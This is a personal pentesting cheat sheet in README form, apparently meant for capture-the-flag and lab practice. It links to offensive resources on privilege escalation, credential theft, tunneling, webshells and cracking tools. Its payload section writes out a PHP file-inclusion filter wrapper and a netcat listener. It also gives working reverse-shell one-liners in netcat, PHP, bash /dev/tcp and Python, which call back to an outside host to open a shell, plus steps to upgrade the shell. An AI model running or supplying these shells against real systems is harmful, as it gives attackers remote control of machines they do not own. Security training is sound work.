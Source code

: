 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
## Log4J
- [**Log4j Exploatation**](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
## Payloads
- [**Apache Tomcat RCE through WAR file**](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**LOCAL FILE INCLUSION**](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
## Reverse Engineering
- [**Write-up for ROP exploit**](https://shakuganz.com/2021/06/08/hackthebox-you-know-0xdiablos-write-up/)
- [**Return Oriented Programing**](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)
- [**LXD Privillage Escalation**](https://www.hackingarticles.in/lxd-privilege-escalation/)
- [**LXD Exploatation**](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)
- [**Escape from Restrictd Shells**](https://0xffsec.com/handbook/shells/restricted-shells/)
## PIVOTING && TUNNELING
- [**Pivoting with Chisel**](https://ap3x.github.io/posts/pivoting-with-chisel/)
- [**Tunneling with Chisel and SSF 0XDF**](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
- [**NOTES ABOUT TUnneling and Pivoting**](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
- [**SSH Tunneling**](https://0xdf.gitlab.io/2018/06/10/intro-to-ssh-tunneling.html)
- [**Shades of Tunneling Article**](https://karol-mazurek95.medium.com/the-shades-of-tunneling-a8b6ce1d7fed)
- [**Tunneling and Port FOrwarding**](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)
## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [**Rogue JNDI**](https://github.com/veracode-research/rogue-jndi)
- [**RsaCtfTool**](https://github.com/RsaCtfTool/RsaCtfTool)
- [**Ghidra**](https://github.com/NationalSecurityAgency/ghidra/releases)
- [**OllyDBG**](https://www.ollydbg.de/)
- [**checksec**](https://github.com/slimm609/checksec.sh)
- [**LaZagne**](https://github.com/AlessandroZ/LaZagne)
# Payloads
## PHP Wrapper
```php://filter/convert.base64-encode/resource=```
## Profiling Password Lists
### CEWL
```ULTIMATE WAY OF CREATING A WORDLIST
1.DIRECTORY BRUTEFORCING
feroxbuster -eknr --wordlist $HOME/tools/crimson/words/dir -u https://<target_domain>/ -o ferox.txt
2. PREPARE FIRST PART OF THE cewl.txt
cat ferox.txt | grep 200 | grep -v "png\|\.js" | cut -d "h" -f2-100 | sed "s/^/h/g" >> urls.txt
for url in $(cat urls.txt); do echo $url && cewl -d 5 $url >> temp_cewl.txt;done
cat temp_cewl.txt | sort -u >> cewl.txt && rm temp_cewl.txt
```
## Nmap
### Null Scan 
```nmap  -n -sN 10.10.110.0/24```
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### PHP:
```<?php $sock = fsockopen("ip","port");$proc = proc_open("/bin/sh -i", array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
